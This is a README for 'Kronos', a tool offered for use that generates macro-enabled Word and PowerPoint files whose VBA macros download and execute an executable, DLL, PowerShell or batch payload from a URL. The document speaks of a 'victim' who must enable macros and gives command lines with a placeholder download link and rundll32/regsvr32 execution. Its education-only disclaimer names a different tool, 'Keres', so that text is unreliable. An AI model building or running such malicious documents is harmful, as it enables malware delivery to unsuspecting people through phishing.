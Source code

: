![!\[Alt text\](<>)](<2023-12-24 10_34_53-Photos.png>)


Greetings
--------------------------

Kronos is a doc and ppt exploitation tool to deliver Payloads via Vba macros by downloding the PE from a URL 

it generates a docm or pptm , if macros disabled by default ,victim needs to enable macros

for an exe use :

python kronos.py -Url 'https://your.link' --word_file 'if you have a docx file' -PE 'name.exe'

for a dll  use : 

python kronos.py -Url 'https://your.link' --word_file 'if you have a docx file' -PE " {rundll32 or regsvr32} {name.dll} ,{function if needed} "

youcan also run a ps1 or bat file 

setup:
------------

git clone https://github.com/ELMERIKH/Kronos

pip install -r requirements.txt

python3 Kronos.py

DISCLAIMER :
----------------------------------

ME The author takes NO responsibility and/or liability for how you choose to use any of the tools/source code/any files provided. ME The author and anyone affiliated with will not be liable for any losses and/or damages in connection with use of Keres. By using Keres or any files included, you understand that you are AGREEING TO USE AT YOUR OWN RISK. Once again Keres is for EDUCATION and/or RESEARCH purposes ONLY.

